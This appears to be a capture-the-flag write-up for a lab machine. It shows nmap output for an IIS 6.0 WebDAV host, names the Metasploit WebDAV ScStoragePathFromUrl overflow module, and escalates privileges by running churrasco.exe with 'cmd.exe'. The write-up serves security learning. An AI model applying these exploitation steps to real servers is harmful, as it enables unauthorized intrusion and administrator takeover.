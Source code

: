 Nmap scan

```
# Nmap 7.40 scan initiated Fri Jul 21 04:41:25 2017 as: nmap -sV -sC -oA nmap 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.33s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unkown
|   Server Date: Thu, 20 Jul 2017 20:42:02 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 21 04:42:16 2017 -- 1 IP address (1 host up) scanned in 50.31 seconds
```

I searched for some exploits in webdav and found one.

```
exploit/windows/iis/iis_webdav_scstoragepathfromurl       2017-03-26       manual      Microsoft IIS WebDav ScStoragePathFromUrl Overflow
```

That exploit can be used to have a meterpreter session.

After I got a session it turns out that the machine privileges has the Token privs something by running the **getprivs** command. So I searched for the token kidnapping exploit and it was available in exploit-db site: [https://www.exploit-db.com/exploits/6705/](https://www.exploit-db.com/exploits/6705/)

I uploaded the exe file \(churrasco.exe\) and executed it on the command prompt of the vulnerable machine and it turns out that I had an Administrator privilege on the machine.

```
> churrasco.exe "cmd.exe"
```

The command means  that the churrasco.exe will run the given command which is the "cmd.exe".



# Can be used on HTB/Granny



